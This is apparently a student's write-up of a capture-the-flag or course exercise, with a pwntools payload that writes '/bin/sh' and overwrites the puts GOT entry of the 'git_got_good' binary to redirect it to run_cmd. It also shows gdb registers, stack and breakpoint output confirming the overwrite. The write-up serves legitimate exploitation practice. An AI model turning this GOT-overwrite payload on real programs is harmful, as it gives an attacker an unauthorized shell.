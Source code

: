 I'm not sure what happened to my `rcx` but I know my `rdx` is reversed
### Successful Attempt
###### Code
```python
def pld():
	cmd = p64(0x68732F6E69622F)
	rcAddr = p64(0x000000000040074B)
	pAddr  = p64(0x0000000000601010)
	return cmd + rcAddr + pAddr
```
Test
```python
def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./git_got_good -q')
	p.sendline("break *0x0000000000400800")
	p.sendline("break *0x000000000040080e")
	p.sendline("r")
	p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Registers
```
$rax   : 0x68732f6e69622f  
$rbx   : 0x00007fffffffdef8  →  0x00007fffffffe268  →  "/home/kali/Desktop/5-Week/git_got_good"
$rcx   : 0x0000000000601010  →  0x00007ffff7fdd300  →  <_dl_runtime_resolve_xsave+0> push rbx
$rdx   : 0x000000000040074b  →  <run_cmd+0> push rbp
$rsp   : 0x00007fffffffddc0  →  0x0068732f6e69622f ("/bin/sh"?)
$rbp   : 0x00007fffffffdde0  →  0x0000000000000001
$rsi   : 0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rdi   : 0x00007fffffffdbe0  →  0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rip   : 0x0000000000400800  →  <main+149> mov QWORD PTR [rcx], rax
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdf08  →  0x00007fffffffe28f  →  "SHELL=/usr/bin/zsh"
```
###### Stack:
```
0x00007fffffffddc0│+0x0000: 0x0068732f6e69622f ("/bin/sh"?)     ← $rsp
0x00007fffffffddc8│+0x0008: 0x000000000040074b  →  <run_cmd+0> push rbp
0x00007fffffffddd0│+0x0010: 0x0000000000601010  →  0x00007ffff7fdd300  →  <_dl_runtime_resolve_xsave+0> push rbx
0x00007fffffffddd8│+0x0018: 0x635fc6a8b393a100
0x00007fffffffdde0│+0x0020: 0x0000000000000001     ← $rbp
```

Added a breakpoint right before the call to `puts` to see if it's overwritten correctly:
```
gef➤  $ break *0x40080e
Breakpoint 2 at 0x40080e

Breakpoint 2, 0x000000000040080e in main ()
 code:x86:64 ────
     0x400803 <main+152>       mov    QWORD PTR [rcx+0x8], rdx
     0x400807 <main+156>       lea    rax, [rbp-0x20]
     0x40080b <main+160>       mov    rdi, rax
●→   0x40080e <main+163>       call   0x4005b0 <puts@plt>
   ↳    0x4005b0 <puts@plt+0>     jmp    QWORD PTR [rip+0x200a62]    # 0x601018 <puts@got.plt>
gef➤  $ x/2x 0x00601018
0x601018 <puts@got.plt>:    0x0040074b    0x00000000
```